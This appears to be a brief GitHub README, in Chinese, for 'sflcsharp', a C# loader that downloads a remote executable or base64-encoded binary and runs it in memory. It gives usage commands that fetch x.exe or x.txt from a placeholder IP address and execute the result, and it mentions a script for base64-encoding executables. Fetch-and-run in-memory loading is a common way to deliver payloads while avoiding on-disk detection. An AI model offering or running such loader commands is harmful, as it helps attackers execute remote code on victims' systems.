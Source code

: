 # sflcsharp
更高级的C#加载器，可将远程的C#文件或者base64密码加载到本地内存运行
# usage
-b 参数
sflcsharp -b http://xxx.xxx.xxx.xxx/x.exe
-b64 参数
sflcsharp -b64 http://xxx.xxx.xxx.xxx/x.txt
这个txt文件里面存储的是某exe文件的base64编码的表示，可以用ftob64脚本文件来实现这个操作。
